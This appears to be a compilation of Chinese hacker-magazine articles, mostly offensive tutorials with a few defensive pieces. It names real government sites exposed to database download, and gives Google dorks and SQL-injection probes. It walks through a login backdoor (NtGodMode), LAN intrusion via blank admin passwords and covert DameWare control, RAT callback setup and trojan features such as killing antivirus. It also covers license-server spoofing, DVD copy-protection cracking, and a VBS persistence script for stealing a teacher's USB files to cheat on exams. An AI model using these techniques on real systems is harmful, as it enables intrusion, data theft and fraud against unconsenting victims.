同 Install-Block 不同，Stop Installation Tool 是根据执行文件的名称来判断是否为安装程序，进而执行拦截操作的。在“File Masks”面板中显示了常见的安装程序的名称（图8）。为了提高监控的准确性，Stop Installation Tool 支持文件名通配符，例如“*install*.exe”表示文件名中所有包含“install”字样的可执行文件。当然，你可以自定义所需的文件名称，点击“Add”按钮，在“File Mask”窗口的“File Mask”栏中输入文件的名称，在“Mask Description”栏中输入描述信息，点击 OK 按钮即可。当配置好 Stop Installation Tool 后，点击工具栏上的保存按钮，保存配置信息。之后当符合条件的用户执行安装程序时，Stop Installation Tool 根据文件的名称判断出是否为安装程序，如果是的话可以弹出拦截窗口，在其中输入预设密码，才可以继续安装操作，否则将直接中止安装操作。在 Stop Installation Tool 配置窗口的“Program Options”面板中点击“Log File”按钮，可以查看详细的日志信息，从中可以清晰地看到软件安装的记录信息。

图8

（本文所涉及到的 Install-Block 和 Stop Installation Tool 已收录到光盘中）

### ARP 欺骗攻防

### 10℃警言

最近局域网老有人搞 ARP 欺骗，开始我也没怎么在意，但是接连几天都上不了网我才发现有问题。我来的时候这里的网管就找我要网卡 MAC 地址，后来我就可以上了，我想可能是路由限制 MAC 访问网络。

很早就听说 MAC 地址可以更改，于是趁能联网的时候下了个 MAC 地址扫描器（如图1）。随便扫描了下还有 4 台主机在线，其中 192.168.1.1 是路由，我们不可以把 MAC 地址改成和路由一样，后来再断网的时候我就把 MAC 地址改成能上网的那台。需要说明的是下拉菜单中选择的一定要是网卡，否则改了也没用，不知道哪个是自己网卡的朋友可以去设备管理器中查看。

平静的日子没过几天问题又来了，老是提示 IP 冲突，我想肯定是谁在攻击我，后来查资料才知道是 ARP 欺骗中的一种。人们都说 360 安全卫士的 ARP 防火墙不错，IP 冲突是防住了但是还是连不了网。后来就找了好多 ARP 防火墙，自己用虚拟机来攻击本机，发现只有金山 ARP 防火墙和 Anti ARP Sniffer 可以在攻击的状态下联网，不过网速很慢，我想可能是虚假数据太多造成丢包。由于金山的功能少了，就选择了 Anti ARP Sniffer。

图1

这个软件的优点是安装了一个协议，大家可以在“网络连接→属性”中看到（如图2），而其他所谓的防火墙也就是一个驱动文件。好景不长，没过几天网络又变成断断续续的，实在是让人无法忍受。本想用 ARPKiller 来检测是谁在捣鬼，哪知这个程序只能在 98/2000 下才能正常运行。

这些东西不能互相控制，也就是我控制你，你再反过来控制我。用 WinArpAttacker 来玩玩他吧！扫描的时候记得把反嗅探扫描勾上，这样别人就算在局域网隐藏自己了也可以把他揪出来（如图5）。

这个工具也可以查看是谁在嗅探网络，发了 10000 个 IP 冲突怎么没反应啊，估计对方也开了防火墙吧！有防火墙也不怕，下面出我们的绝招：反 P2P 终结者、反网络执法官、反聚生网管……

无意间发现 Anti ARP Sniffer 有个分析接收到的 ARP 数据包的功能（如图3），选择后就可以知道是谁在嗅探网络了。原来是 IP 为 192.168.1.33 的在捣鬼（如图4）。

### Vista 的桌面也不安全

喜欢 Vista 的 Gadget（侧边栏）吗？是啊，的确很 cool 很帅。但越是绚丽的东西就越是要当心，这不，Vista 的 Gadget 就又是个很好的例子……

首先从微软官方网站下载一款 Gadget 工具，这里以“苹果时钟”为例（图1）。下载完毕后，用 WinRAR 打开源文件 app.Gadget，把其中的 clock.html 先解压出来便于编辑（图2）。

用记事本打开 clock.html，在 body 下随便写个框架（图3）；这里我以新浪主页为例：

```html
<body scroll="no" onload="loadMain()">
  <iframe src="http://www.sina.com.cn/"></iframe>
</body>
```

然后再添加到压缩文件，保存文件，双击安装。看一下现在的侧边栏，我们挂上去的页面就显示出来了（图4），如果换成网页木马的代码呢？所以有些东西在绚丽表面的内部就蕴藏着不安定的因素，切忌要小心。（本文所涉及到的相关 Gadget 文件已收录到光盘中）

### 自由进出系统的“上帝之门”

当你获得了一台计算机的管理员或 system 权限后，为了以后继续控制这台机子，往往会留个后门。以往留后门大多是想办法获得 administrator 等帐号的口令，使用 gina 窃取、sam hash 破解、增加管理帐号等。而挟持管理员密码比较麻烦，还要看你的运气；增加管理帐号容易被发现。前几天在安全焦点发现了一款好用的后门——NtGodMode（我叫它“上帝之门”），打开上帝模式可以用任意密码登录任意 Windows 系统帐号，从而达到不增加帐号、不破坏被入侵主机系统的情况下登录系统帐号。

在你能实际物理接触到计算机时和只能远程登录计算机时，NtGodMode 都是不错的后门。假如你能接触到计算机，找机会给它打开上帝模式，以后你就可以不用密码以任意帐户的身份登录计算机了。我以虚拟机里的 Windows XP Professional 为例做演示，我建了一个用户名和密码都是 test 的管理员用户，正常情况下用 test 这个用户登录系统当然是需要密码的，如图1。

下面我来运行上帝之门。NtGodMode.exe 是在命令行下运行的，命令非常简单，只有 **NtGodMode.exe ON**、**NtGodMode.exe OFF** 两个命令，分别是打开上帝模式和关闭上帝模式。假设我已经把 NtGodMode.exe 放到了虚拟机的 C 盘根目录下，在命令行下执行 NtGodMode.exe ON，看到“Open God Mode!”的提示后说明上帝模式已经成功打开了（图2）。

注销当前的用户，把鼠标移到 test 这个用户上，不像刚才没开上帝模式时出现密码提示框了，如图3，单击用户名后直接成功登录系统（图4）。返回原用户桌面后执行 **NtGodMode.exe OFF**，关闭上帝模式，test 用户就又需要密码才能登录了。

再来说只能远程登录系统情况下的留后门。假如你获得了一台开了终端服务的 Win 2003 的 system 权限，就可以用上帝之门留个后门，以后就可以以任意密码登录该用户的远程桌面了。我这次以虚拟机里的 Win 2003 做演示。我还是建了一个用户名和密码都是 test 的管理员用户。正常情况下登录远程终端当然是要知道密码的，执行 **NtGodMode.exe ON** 后，再来登录 3389，用户名写 test，密码不写，直接点“确定”后就成功登录了，如图5。

能空密码登录！！！真是太强悍了，要知道 Win 2003 为了安全，默认情况下是不允许空密码登录的。我再换用密码 123，test 后也登录成功，说明打开上帝模式后可以用任意密码（包括空密码）以系统中任意帐户的身份登录系统。以后拿下服务器后又多了一个留后门的方法，而且这个后门的隐蔽性非常高。管理员还能用它原来的密码登录系统，你又没有新建用户，他自然无从发现。

由于条件限制，我没在 Windows 2000 Server 下测试。软件的作者说软件适用的范围为整个 Windows 系统，估计在 2000 系统下也能正常使用。

这个后门的危害性还是相当大的，管理员用传统的方法根本查不到后门。以后你再要留后门时，上帝之门是个非常不错的选择。当然，知道了原理后，防范它的方法也很简单：尝试用错误的密码登录系统，如果能成功登录，很有可能你的机子已经被人开了上帝之门后门，可以下载 NtGodMode.exe 后执行“NtGodMode.exe OFF”关闭后门。（本文所涉及到的 MiniSpy、NtGodMode 已收录到光盘中）

## 黑客术语补习

### 什么是 Cookies 注入？

这是一种目前非常流行的攻击方式。普通的注入攻击很难防范，但把注入语句加到 Cookies 中提交就往往被忽略。当一套程序的 Cookies 没有过滤严谨时，就为攻击者提供了方便之门，而且还可以绕过防注入系统。

### Google 对常见漏洞的辅助入侵

无敌小龙（张傅）

Google Hacking 流行几载，在“日常”渗透入侵生活中（谁丢西红柿了！……），我也摸索出一些属于自己的思路，不敢独享，遂有此文！

至于上传，聪明的你应该早已灵光一现。查询关键字：`allinurl:upfile.asp`。至于利用，还是上传利用还是帮出明小子的 `domain3.5` 来解决吧。

#### 一、数据库的不安全

- **1. 搜索型注入：**

最近大家都狂热搜搜索型注入的（纯注入已经进入了它的白垩纪了！），可是菜鸟们大都反映试手的网站感觉不是很多！其实，这个就要看你搜索漏洞网站的能力了！一般说来，Web 程序员在设计搜索页面时，常把这个搜索页的文件命名为 `search.asp`，这样不仅一目了然、见名知意，而且也方便了 Hacker 们对相关漏洞页面的查询搜索！

- 关键字：`allinurl:search.asp`
- 其他查询方法：`intext:` 搜索（为了提高成功率，可以加入“企业网”之类的，因为企业网维护性一般较差！）

一般排名靠前的站，安全性都比较高，小菜对这样的站可以飘过！往后翻到 10 多页，点开一个站，是个绿色食品网。转眼，中国都入世好几年了，搞外贸经商的人在接受了绿色壁垒的洗礼后，也开始生产绿色食品了！

在输入框中输入：`%'and 1=1 and '%'='`，正常；输入：`%'and 1=2 and '%'='`，出错。如图1。关于怎么具体利用，大家可以参考上期 zero_code 的文章！

- **2. 数据库：**

关于对默认数据库的入侵和渗透，我在 X 档案的《菜鸟也做网站的猎手》已经详细介绍了，这里为了本文的完整性，就简略提及一下！

关于查找“洞”网的默认数据库，关键字：`allinurl:dvbbs7.mdb`。其他程序的数据库的利用方式，大同小异。你可以先到 `www.chinaz.com` 这样的站长网站去，下载 Web 程序，记下它们的数据地址，然后填到搜索引擎中，最后可以用相关检测工具来批量检测——可以提高入侵精准性！

- **3. 注入：**

这是个老话题了。对于 ASP 的，关键字：`allinurl:asp?id=`（你也可以在 id 参数后添上一段数据，这样过滤掉大部分有关介绍注入漏洞的文章——笔者就常常搜索出大量的相关介绍文章，而不是搜索出注入点！）

对于 PHP 的，关键字：`allinurl:php?id=x`

- **4. 上传：**

#### 二、服务器设置不当的网站

- **1. 爆库：**

“有没有搞错，现在还有这个漏洞，我都拿来玩过！”有的小菜不禁要苦呼！其实，这个漏洞还是广泛存在的。对于曾经错过这个一两年前的爆库漏洞利用的小菜们，现在可以一展身手了！

最简单的是，查询关键字：`allinurl:conn.asp`，很容易就找到有爆库漏洞的网站，如图2、图3。

看到这样的 ASP 代码：

```asp
<%
db="../data/test_admin.mdb"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="driver={Microsoft Access Driver (*.mdb)};dbq=" & Server.MapPath(""&db&"")
conn.Open connstr%>
```

其中“`db="../data/test_admin.mdb"`”这句代码的意思就是告诉我们：数据库在当前目录的上层，也就是在 `http://bjds.gov.cn/bjds/internet/jtds/asp/kaoshi/` 这个目录下，填入 `http://bjds.gov.cn/bjds/internet/jtds/asp/kaoshi/data/test_admin.mdb`，如图4，数据库已经可以被下载了。因为是 gov（政府）网站……

- **2. 列目录：**

这个是服务器的权限设置不当引发的。一次我无意看到一个站：`http://www.changxing.gov.cn/zc/`，如图5，明显地被列目录了。我分析了一下这个页面的特征字符，发现 `index of` 是可以利用的。

来到搜索引擎中，关键字：`intext:index of`。类似漏洞的网站全部被曝光在了显示器面前！约有 2,690,000,000 项符合 `intext:index of` 的查询结果，晕，够你使用十年了，如图6！

文章完毕，大家只要细心一点“挖”下一些网站程序，都会发现自己独有的关键字，轻松找一些 WEBSHELL 肯定没问题。至于以前的“to the parent”关键字搜索，大家也可以配合使用。

我就不方便继续搞下去了[

### 实用的内网上线方法

经过一段时间的学习，我现在已经可以在内网使用鸽子上线了。我总结了常见几个内网上线的方法：

- 用鸽子自带的端口映射工具来映射。
- 路由器端口映射。
- UPNP 端口映射。
- 使用端口映射工具来映射内网 IP 端口到外网 IP 端口上。
- 用动态域名解析映射 IP。

第一种：配置好鸽子后，来生成一个鸽子自带的端口映射工具，然后让外网机器运行一下你刚才生成的映射工具。在自动更新的时候，IP 填那个外网 IP。对校园网的朋友可是挺难的，不能总找朋友映射吧！而且病毒这么厉害，稍有不慎很怕啊！

第二种：大家可以在 cmd 下用 `ipconfig` 这个命令看一下自己的网关，然后在 IE 里打上网关地址进入路由的管理页面，然后在那里添上你的内网 IP 和你要映射的端口，保存后退出就可以了。

第三种：在拿不到路由权限时可以使用 UPNP 端口映射。首先路由器要支持 UPNP 映射，系统还要开 SSDP 服务。常见如比特精灵 UPNP 端口映射工具，我感觉这个也不好用，经常什么都扫不到。

第四种：大家到网上找一个好点的端口映射工具，填写一下自己的内网 IP，然后填一下自己外网 IP（可以到 `www.ip138...`）。

## 傻瓜黑客

先看一下自己的外网 IP，IP 填好后添加端口。如果自己没改过的话，一般鸽子都是 8000，最后自动更新一下就可以了。推荐大家用那种用来映射内网建站的，比较好。

第五种：好多网站都提供免费的动态域名注册。一般这种网站都有一个客户端软件，下载后在本机上运行就可以了。鸽子自动映射时输入这个外网 IP 就可以了，用着较好的感觉有希网 3322。

今天给大家介绍的是内网上线的一种新方法。

- 1. 下载并安装 VNN 3.0，安装完毕后打开 CMD 输入 `ipconfig`，可看到网卡信息。
- 2. 申请一个 FTP 空间（文中示例：www.3326.com），得到账号信息。
- 3. 通过鸽子填写 FTP 更新，更新 IP 到 FTP 空间，保存并生成服务端。
- 4. 运行后等待被动上线，验证地址是否可访问。

有两个注意要点：安装完 VNN 后不能登录，一般是端口冲突；更新 IP 到 FTP 空间时，IP 文件内容要填写正确。文中还给出了 IE 访问 `http://mutoum.go3.icpcn.com/ip.txt` 的验证示例。

本人也是菜鸟，学习内网看了很多教程方法，推荐的方法是希望学习内网的朋友有更好方法来抓鸡。共同交流，一起进步！


### 图解“克隆羊”盗拷“防盗圈”之续

本人曾在 2007 年第 11 期发表《图解“克隆羊”盗拷“防盗圈”》一文。由于 CloneCD 主要针对 CD，而对 DVD 不够适配，本文推荐 AnyDVD 进行补充。

AnyDVD 安装包较小，安装后重启。将 Crack 目录中的 AnyDVDtray 程序复制到安装目录覆盖原文件即可完成破解。

AnyDVD 是后台解密驱动，可使加密 DVD 变成无加密保护和全区码，支持在常见播放器中播放任意区域码影片，并可去除不需要的用户禁止操作与警告。

其特点是不需将数据写入硬盘即可解密，属于“随时”解密模式。适用于所有 DVD 光盘，对 CSS 加密与 RPC 区域码保护等基本不在话下。


简单说一下用 AnyDVD 来复制加密 DVD 电影的方法：运行 AnyDVD 后，在 Windows 的任务栏中会出现对应的狐狸头图标，右键单击选择其中的“刻录 DVD 影碟到硬盘上”（如图 2），选项后会弹出“AnyDVD 刻录工具”（如图 3），在这儿设置一下目的目录后，就可以单击右下角的“拷贝 DVD”按钮进行 DVD 的复制工作了。（本文所涉及到的 AnyDVD 已收录到光盘中）


### 突破校园网的共享上网限制


事情是这样的，我们学校用的是华为 H3C 802.1X 管理软件……一个账号绑定一个 IP，并且在第一次登录时自动记录使用者网卡的物理地址，就算换了别的机器也会通不过认证。


昨天我们同宿舍的同学买了台电脑回来，顺便买了个腾达路由回来……发现路由的 WAN 居然不支持华为认证……把从学校拉过来的网线插到路由的 WAN 接口、电脑接 LAN 接口后，仍然无法正常共享上网。

学校这边给我们的网线是学校华为交换机的局域网网线，好像可以插到 LAN 接口上……于是把 IP 改为学校分配的 IP，网关、DNS 按学校给的填写，如图 2。


然后使用华为认证，通过认证可以上网，但是同学的机器还不行。华为不是认证时既校对 IP 和物理地址嘛，我把同学的机器 TCP/IP 属性填成和我机子一样，再修改其物理地址，在本地连接选项卡中配置如图 3。


然后点高级，Network Address 里填成我的 MAC 地址，如图 4……认证成功后他也可以上了。不过我的电脑不能同时上线；并且路由和学校给的 IP 不在同一网段，联机时需要频繁改 IP。


于是我又进了路由设置页面，看到图 5 这样的页面。尝试把 IP 地址改为 192.168.129.*，使路由和学校给的 IP 处于同一网段……在 IE 中输入后进入路由并正确设置。

突然想到在百度找个华为的破解，搜来搜去都没找到，目前没发现有效方法。后来找到“泡泡鱼虚拟网卡客户端”等资料，发现 802.1x 认证端口绑定导致双网卡场景会被强制下线。


在自己机子上翻到 CCProxy 软件（代理软件），思路是让同网段机器通过代理上网。简单设置后，在同学机子上把 IP 设成 192.168.129.*，首选 DNS 设为我的 IP（192.168.129.31），其余按图 2 设置。

然后在他机子上测试成功，这样就成功突破华为限制，可以使两台以上的机子同时使用一个账号上网！后续还提到可用 e-Border 做客户端，并给出论坛交流与致谢说明。


### 菜鸟求职网络验证——10℃警言

现在好多外挂都是网络验证外挂猛卖，对付的方法就是暴破或改成本地验证。脱壳爆破或者带壳爆破是件相当麻烦的事，我们就选本地验证吧！

我就拿 QQ 三国助手 0311 版为例吧！拿到一个程序首先是查壳，PEiD 显示为 NsPack V3.7，北斗的壳用 ESP 定律就可以脱掉。由于我们只是过网络验证，没必要去脱壳。用它提供的免费账号 [rcc 登录下吧！显示免费试用 10 分钟（如图 1）。


下面我们就来截取它向服务器发的数据和服务器返回的数据吧！用 WPE 这个工具，首先我们打开 QQ 三国助手填好账号和密码，先别点登录。打开 WPE 选目标程序，从下面列出的进程中选择 QQ 三国的进程打开（如图 2）。

然后点目标程序按钮下面的小三角形开始记录。下面你就可以点登录了，登录成功后点三角形右边的正方形停止。看过就可看出程序的通信情况了。这里只要发送数据就行了，得到如下数据：


```txt
GET /login.php?username=free&userpass=...&ver=afsg0311&uid=...
HTTP/1.1
User-Agent: http://www.baidu.com...
Host: crc.afzs.net
Cache-Control: no-cache...

...username=free&userpass=...&ver=afsg0311&uid=...
...登录成功 免费试用10分钟...
```

下面我们就可以做本地验证了，把上面的返回信息保存为 login.php。如果你没装 IIS，就用个人 WEB 服务器，记得要把 login.php 放入 WEB 文件夹内。由于外挂要访问 crc.afzs.net，所以就改 Hosts 指向 127.0.0.1（本机），然后再打开本地 localhost 或者 crc.afzs.net，或者自己添同一行也行。先启动 WEB 服务然后再登录外挂（如图 3）。

（本文所涉及到的 WPE、QQ 三国助手破解、个人 WEB 服务器、QQ 三国助手、hosts、login.php 已收录到光盘中）

### 想发泄？“砸”了它！

闪电小子


网络是虚拟的，所以也会有很多烦心事。比如，某个网站上“可爱了”自己偶像的绯闻、某个网站的种种举动让我们无法接受的时候，大家也许都会有这样的报复想法。拿站等方案一起涌上心头。但是，对于一个初出茅庐的小菜来说，就没有报复的办法，只能“以头抢地耳”吗？答案是：不是！现在，我就给大家介绍一个可以让所有人都可以发泄的地方，让大家不满的情绪得到释放。

首先让我们登录 http://www.netdisaster.com/，网页如图 1 所示。

其中，Target 一栏我们填写即将发泄的网站。在这里，我就拿被众多玩家唾骂的 QQ 幻想游戏官网作为牺牲品。在 Target 填上 http://fo.qq.com/index.shtml，在 disaster 一栏中我们可以发现许多下拉选项。这是什么呢？对了！这就是发泄的方式，可以用枪击、虫子、打鸡蛋、倒咖啡……等种种方式。


可通过金山在线翻译（没有翻译工具的）或金山快译（适合安装有金山快译的同志使用）来了解攻击的方式。然后点击 go，攻击就开始了。如图 2，这就是我通过用枪击的方法“发泄”后的场景，是不是很爽啊？

在网络生活中，烦心的事时常存在，给大家推荐这个网站，就是为了能让大家及时发泄自己不满的情绪。相信大家看完后也有点跃跃欲试了吧？那就赶紧来吧！记住网址是 http://www.netdisaster.com。


图2


### 局域网内最实惠的入侵做法

牟晓东

玩了若干年的黑客技术，不少大菜鸟黑客已开始厌倦每天不停地踩点儿、黑网页、盗取 QQ 号等的入侵生活了。其实入侵的含义远不止于此，笔者倒是觉得有时候针对局域网 LAN 的入侵反而是最实际可行的，因为对于像公司、学校、网吧之类的 LAN 而言，几乎所有人都有机会是其中的一员。另外，在此种与自己密切相关的 LAN 中一般都会有自己非常感兴趣的资料，因此有必要谈谈对自己 LAN 入侵的一些做法及经验（做“家贼”的感觉其实也不错哦！^_^）。工具不多，一个 X-Scan 扫描器，一个 DameWare 远程控制软件迷你版（小项目不在杀毒软件的查杀之列），足矣。下面，随笔者一起开始最实惠的 LAN 入侵之旅吧！

首先仍然是踩点儿扫描，请出 X-Scan 扫描器。由于最终入侵的目的无非就是查看/复制对方的资料，所以在 X-Scan 的“扫描参数”选项中一定不要贪多，这样可以保证扫描的速度，只要检测出对方的用户名和密码及操作系统即可。因此在 X-Scan 中的“检测范围”里“指定 IP 范围”就填本地 LAN 的网段，比如：“10.81.2.2-10.81.2.253”；“全局设置”中的“扫描模块”只选择“NT-Server 弱口令”和“远程操作系统”两项即可，其他的像“并发扫描”“网络设置”等项均无需设置，默认。接下来就可以点击“开始扫描”按钮进行扫描了，过几分钟后会扫出结果（如图 1）。


图1

根据经验，一般在 LAN 中的“Administrator + 空口令”式“黄金组合”比例相当高，除此之外当然还会有一部分“123456”之类的弱口令，所以拿下整个 LAN 的 30%-50% 的几率是非常高的。

第二步，运行 DameWare 远程控制软件迷你版，将 X-Scan 中扫描出的某个 IP、用户名和密码依次填入相应的项目后进行连接，马上 DameWare 就会提示你远程计算机未安装 DameWare 客户端，稍微设置一番（特别小心不要在远程计算机上显示 DameWare 的运行图标），之后很快就会看到对方的画面了（如图 2：竟然还在杀毒？所以使用 DameWare 是非常安全的），其一举一动不都在掌握之中了么？


图2

此时切记不要乱动自己的鼠标，因为 DameWare 默认连接状态是控制状态，也就是说对方的鼠标此时是听从你的摆布的。最好的选择是迅速地将鼠标移出屏幕，然后从上方小心地进入后点击“仅仅查看”按钮，如此后则可安心地查看对方在做什么了。因为我们的目的是长期入侵，所以千万千万不要去跟对方抢鼠标、改密码什么的（偶当年就做过，结果对方马上开始点“开始”→“关闭计算机”，玩了足足有 1 分钟，最后以对方拔掉电源为结局，^_^），切记不能打草惊蛇。

第三步，经过上面的两步确认后，我们就可以在对方毫不知情时进行资料的查看/复制工作了。由于我们使用的 DameWare 迷你版后台文件操作功能比不上一般菜鸟在自己机器上操作的方便（完整版的可以，就是个头大了点儿），所以这一步我们可以不需要借助任何工具，直接使用 Win 2000/XP 自带的 Net use 命令来与对方各硬盘分区进行网络映射即可。打开自己的 CMD 命令窗口，输入 `Net use X: \\10.81.2.108\D$ "" /user:"Administrator"` 后回车，系统马上提示“命令成功完成”（如图 3）。


此命令行的意思是将对方（10.81.2.108）的 D 盘映射为自己的 X 盘，连接时使用的用户名是 Administrator，口令为空。接着就可以关闭 CMD 窗口，回到自己的桌面右击“我的电脑”选择“资源管理器”，会看到多了一个 X 盘（如图 4），这就是对方的 D 盘。


现在这就是“我的地盘”了，对其中任何资料的操作都不会有限制（除非对方正在使用它）。但建议遵守“只查看/复制而不修改/删除”的原则。另外最好在完成后断开映射，避免对方察觉或出现系统反复重连提示。最后一句：工具不在多，用精就好；思路不在繁，有效即可。

### 为 Discuz 论坛添加统计

最近搭建了个 Discuz 论坛，看到别人的论坛都有统计，咱也不能落后。打开中国站长联盟主页 `www.cnzz.com`，点击“注册”，填写邮箱并完成站点信息提交。


添加后页面会提供“获取代码”，可选择不同样式并复制到剪贴板（如图 2）。


登录 Discuz 后台，进入“其它设置”→“广告管理”，新增广告。展示方式选择“代码”，广告类型可选“页尾通栏广告”，并将 CNZZ 提供的统计代码粘贴进去。


最后点击“提交”，刷新后即可在论坛页面底部看到 CNZZ 统计（如图 4）。


添加统计后，可以查看当日访问量、PV 等。点击论坛底部 CNZZ 图标进入统计登录页，输入密码后可查看报表。若需修改统计密码，可在 CNZZ 后台“统计管理”中进行设置（如图 5）。


## U盘的考试秘籍

稻草人


又到了备受煎熬的六、七月了，复习和考试是学生时代永远推翻不了的两座大山。既然我们的身份是学生，那么学习、复习和考试自然也就是作为学生必须要完成的工作。然而，我们的身份又是“黑”生啊（千万别忘了我们的身份），玩黑也是我们的一门“学科”！

废话不多说了，直接进入主题。以前相信大家都用过闪盘窃探者这一软件，至少我没有少用。偷取别人闪盘里的东西真是轻而易举。运行界面如图 1 所示。


没用过的小菜，相信看到这一界面也能够熟练操作，很人性化的设计。它是在后台偷取别人闪盘里所有东西的小软件。只要你的闪盘一插上，所有的东西都被悄悄拷走了。以前每到考试前我就用它偷取老师闪盘里的试题，谁让我太着迷“黑”呢！平时不用功，最后当然要想办法啊。或许是我运气好，每次都能成功。羡慕吧！

可是，这一学期，有一个老师换了闪盘，而她的课又很 BT。更可怕的秘密出现了：有可移动存储设备中，自从她换了闪盘后，她的闪盘里现在显示成“硬盘”中，如图 2 所示。由于没办法抓图，只能用图 2 代替了。闪盘窃探者就没法偷取闪盘里所有东西了。为了考试能过还是要想办法。谁让我们是“黑”生呢！


上网搜索了 N 久，终于让我搜索到了如下代码。用 VBS 脚本写的一个小程序（程序我已经给打包了）。又经过 N 次把代码弄清楚了，谁让现在网络这么发达呢，后面都有注释说明。

```vb
On Error Resume Next
Set fso=CreateObject("scripting.FileSystemObject")
dim n
Set n=CreateObject("Wscript.Shell")
set dir=fso.GetSpecialFolder(1)
fso.getFile(WScript.ScriptFullName).Xcopy(dir&"\copy.vbs")
dim r
Set r=CreatObject("Wscript.shell")
r
Regwrite "HKLM\Software\Microsoft\Window\CurrentVersion\Run\","copy.vbs","REG_SZ"
fso.CreateFolder("e:\123\explorer")
for i=1 to 2
 i=1
 fso.CopyFile "g:\*","e:\123\explorer\",True
 fso.CopyFolder "g:\*","e:\123\explorer\",True
 wscript.sleep 10000
next
```

把上述内容存为 `*.vbs`，才几百字节。

- 该脚本具有以下功能：
- 1. 开机自动启动；
- 2. 定时复制闪盘所有文件及文件夹到指定位置；
- 3. 无任何错误提示（很关键，如果你不想死的话）。

现在，只要在目标机器上执行一次脚本（注意：执行时没有反应，但在进程列表中有一个 wscript.exe 的进程），脚本执行后向“僵尸”硬盘复制。每隔 10 秒复制一次文件到指定的文件夹里（间隔时间和目标文件夹均可以自行设置）。重启后会自行执行，且不会有任何异常提示，毕竟安全第一嘛！这也是 VBS 的特点，一切悄无声息，如图 3 所示。不过脚本也不是没有缺点，那就是复制文件的时候闪盘的灯会狂闪不止，且机器运行的速度会明显变慢，也无法通过安全删除硬件来停止闪盘，不过好在老师们多是菜鸟。


另外，别以为复制完就万事大吉了，最好定期删除没用的文件，否则目标文件会急速膨胀，到时会很恐怖哦！最后祝大家：考试都得满分！

### 小试国产木马 Fantasy

天涯衰草


灰鸽子的时代已经离我们远去，国产的木马程序除了上兴远控，就只有 PcShare 和守望者了，再加上最近也没有什么太好的国外木马加入，因此很多用户对这些木马产生了审美疲劳。今天我就带大家看看国内新近推出的一款名为 Fantasy 的国产木马程序，虽然这款木马还有很多不足之处，但是换换口味还是不错的。

通过“保存画面”按钮可以对捕捉的画面进行保存。通过测试发现，Fantasy 木马的远程桌面除了屏幕捕捉外，并不能对远程桌面进行直接的控制操作。除此以外，“视频监控”功能可以通过远程摄像头进行信息捕捉，不过我因为没有摄像头也就不测试了。

#### 一、配置木马

首先运行木马的客户端程序，点击工具栏中的“配置服务端”，Fantasy 服务端的配置非常简单，用户只需要设置好反弹连接的访问地址以及连接端口、连接密码、安装选项等就可以了。访问地址可以采用网页链接以及 IP 地址等方式，如图1。安装选项包括了 Fantasy 木马的安装路径、文件名标识以及服务内容等。配置完成后点击“生成服务端”，就可以创建我们所需要的服务端程序了。

#### 二、实际操作

我们直接在本地电脑里运行服务端程序来看看它的具体操作。很快服务端程序就会自动连接成功了。Fantasy 木马所有的控制命令都集中在工具栏里，依次点击其中的控制命令来测试一下 Fantasy 木马的控制能力到底如何。


图1

首先点击工具栏中的“远程屏幕”命令，通过该命令可以对远程桌面进行查看。在弹出的捕捉窗口中点击工具栏中的“开始”按钮，程序就开始自动捕获远程桌面的内容了。默认情况下 Fantasy 木马的捕捉效果并不理想，不过用户可以选中“真彩色”选项，这样捕捉的屏幕效果就将大为改善了，如图2。


图2

点击“文件管理”按钮来进行远程磁盘文件的管理，在弹出的“文件管理”窗口中，首先从磁盘列表中选择需要查看的磁盘信息，然后就可以对所需的文件夹和文件进行管理操作。既然是远程文件管理，程序自然包括了必须的文件上传、下载、运行、删除等基本功能，文件的上传和下载都支持断点续传功能，如图3。不过虽然 Fantasy 木马支持多线程的操作，但是在文件管理方面还是只能一次对一个文件进行操作。


图3

接着我们再来看看 Fantasy 木马中的其它管理命令，比如“进程管理”、“服务管理”、“注册表管理”等。利用“进程管理”可以对远程系统中的进程进行相应的管理，可以查看每个进程的路径、PID、线程数、优先级等信息，如图4。


图4

通过“终止进程”命令，用户可以关闭某些选中的程序进程，比如杀毒软件、防火墙的进程等。另外通过“服务管理”命令，除了能对 NT 系统中的服务进行常规的启动、停止、删除等管理外，还包括一个“安装服务”的相应功能。点击这个按钮，Fantasy 木马会分别弹出三个对话框，我们需要依次输入新建服务的名称、描述、服务程序的路径等。这对于绕过某些拥有主动防御功能的杀毒软件是非常有用的，不过该命令有时候操作起来会没有反应。

点击工具栏中的“注册表管理”命令，就可以在窗口中对远程系统的注册表进行操作。比如对任何所选择的内容进行修改、删除、重命名等，当然也可以对注册表内容进行相应的新建操作，如图5。

其实对注册表进行相关的操作后，就可以很好地完成对系统的进一步控制。比如打开远程系统的远程桌面功能，更改其使用的连接端口等，这样我们以后就可以使用远程桌面来进行控制操作了。


再来看工具栏中的“超级终端”命令，该功能模拟了一个远程系统的 CMD 窗口，用户可以在这个窗口中执行大量的网络终端命令，如图6。当然也可以执行只有在 CMD 窗口才能执行的后门程序。不过由于系统本身特性所造成的原因，该命令可能在服务端为 Win9x 的情况下无法实现，所以使用前最好通过主机列表中的“系统类型”命令查看清楚远程主机的操作系统类型。

最后通过工具栏中的“服务端控制”按钮，还可以执行其它一些操作命令，比如卸载服务端、关闭主机、重启主机等。另外在“下载执行文件”功能里，可以直接将网络中的文件下载到远程系统中并运行，设置好“文件地址”和“文件名称”等项目，点击“下载执行”按钮就可以了，如图7。在主机列表中还可以对多台远程计算机进行批量的文件下载操作，这样就可以批量对肉鸡中的服务端程序进行更新。

#### 三、小结


从上面的介绍我们可以看出，Fantasy 木马虽然是一款刚刚推出的木马程序，但是其拥有的功能已经可以满足常见的控制操作。唯一的缺陷就是其自身的防护性太差了，服务端程序没有进行任何的隐藏设置。因此我认为，Fantasy 木马在以后的版本中需要将现有功能进行进一步的加强，并加大服务端的隐藏设置，只有这样 Fantasy 木马才能得到进一步的发展和延续。（本文所涉及到的 Fantasy 已收录到光盘中）

### 网页后门免杀之 phpencode 篇

以前我曾经写过一篇叫做“网页后门免杀之 screnc 篇”的文章，那么今天我就来完成这个系列的第二篇——phpencode 篇。

前几天当我入侵一个由 BBSXP2007 构建的论坛，在后台添加 asa、aspx 等后缀文件准备上传后门时，发现上传失败。既然已经添加好了，问题一定是出在文件过滤中，这些后缀被过滤掉了。

为了验证我的想法，我从官网下载了同一套程序，在 Utility\UpFile.asp 文件中发现了这么一段代码：

```vb
if FileExt="asa" or FileExt="asp" or FileExt="cdx" or _
   FileExt="cer" or FileExt="aspx" then Alert("对不起，管理员设定本论坛不允许上传 '&FileExt&' 格式的文件")
```

